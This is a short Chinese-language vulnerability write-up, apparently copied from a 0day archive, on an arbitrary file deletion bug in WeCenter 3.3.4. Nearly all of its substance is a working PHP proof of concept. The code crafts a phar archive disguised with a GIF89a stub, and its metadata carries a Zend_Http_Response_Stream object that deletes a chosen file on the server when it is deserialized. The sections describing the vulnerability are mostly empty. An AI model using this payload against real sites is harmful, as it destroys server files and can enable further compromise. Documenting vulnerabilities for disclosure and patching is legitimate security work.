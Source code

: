# WeCenter 3.3.4 任意文件删除

> 原文：[http://book.iwonder.run/0day/WeCenter/WeCenter 3.3.4 任意文件删除.html](http://book.iwonder.run/0day/WeCenter/WeCenter 3.3.4 任意文件删除.html)

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意文件删除

**system/Zend/Http/Response/Stream.php:__destruct()** 方法中存在任意文件删除。

![image](img/139537264f8f750a8bcf907d95ac8a33.png)

### poc

```
<?php
class Zend_Http_Response_Stream
{
    protected $_cleanup;
    protected $stream_name;

    public function __construct($stream_name)
    {
        $this->_cleanup = true;
        $this->stream_name = $stream_name;
    }
}

$stream_name = '/var/www/html/wecenter334/shell.php';
$evilobj = new Zend_Http_Response_Stream($stream_name);
// phar.readonly 无法通过该语句进行设置: init_set("phar.readonly",0);
$filename = 'poc.phar';// 后缀必须为 phar，否则程序无法运行
file_exists($filename) ? unlink($filename) : null;
$phar=new Phar($filename);
$phar->startBuffering();
$phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($evilobj);
$phar->addFromString("foo.txt","bar");
$phar->stopBuffering();

?> 
```

